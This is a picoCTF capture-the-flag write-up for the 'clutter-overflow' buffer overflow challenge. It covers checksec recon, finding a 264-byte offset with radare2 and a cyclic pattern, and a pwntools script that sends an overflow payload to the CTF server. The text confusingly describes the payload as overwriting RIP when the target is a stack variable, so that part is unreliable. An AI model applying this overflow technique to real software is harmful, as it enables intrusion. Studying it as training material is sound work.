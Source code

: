 # clutter-overflow: Buffer Overflow on `chall` – picoCTF

## 🧩 Challenge Info

* **Name:** Unknown (`chall`)
* **Category:** Binary Exploitation
* **Platform:** Linux x86\_64
* **Protections:** You should verify this via `checksec` — for now, assuming it's a simple BOF.

---

## 🛠️ Tools Used

* `pwntools` (for scripting)
* `checksec` (to see binary protections)
* `gdb` / `pwndbg` (for analysis)
* `cyclic` (to find offset) or `ragg2` with `wopO`

---

## 🔍 Step-by-Step Exploitation

### 1. Recon: Check Binary Security

```bash
checksec ./chall
```

You’ll likely see:

```
[*] './chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (or yes depending on binary)
```

Key Points:

* **No Canary** → Classic BOF is possible.
* **No PIE** → Binary addresses are static (useful for ROP or function calls).

---

### 2. Finding the Offset

To determine where the address of code variable is to overwrite it:

![first](./img/first.png)

we know that the value of the code is by default 0 , but how can we find it we can use `afvd` command of r2 to find this 

![variable](./img/variables.png)

now here we can see both the buffer(clutter) and the code(long) variable and their address by looking at the address we can see that it does not lie in this stack dump we need to increase the size of stack dump to see the variable 


![code offset](./img/code_offset.png)

now we can see the variable(code) at the given offset now we use cyclic pattern ([de-bruijn-sequences](https://en.wikipedia.org/wiki/De_Bruijn_sequence)) to find its offset from the cluuter so we could overwrite it 

![wopO](./img/wopO.png)



Result: Offset is `264` bytes 

<br>

---


### 3. Building the Exploit

Payload:

```python
payload = b"A" * 264 + p64(0xdeadbeef)
```

* `A` \* 264 → Fills the buffer to overwrite RIP.
* `p64(0xdeadbeef)` → Overwrites RIP with `0xdeadbeef`. Replace with a real address later.

### 4. Writing the Exploit Script

```python
from pwn import *

DEBUG = False  
HOST = 'mars.picoctf.net'
PORT = 31890

elf = context.binary = ELF('./chall') 
context.log_level = 'debug'
context.bits = 64

if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

offset = 264
payload = b"A" * offset + p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

---

## 🏁 Flag


![result](./img/result.png)

---
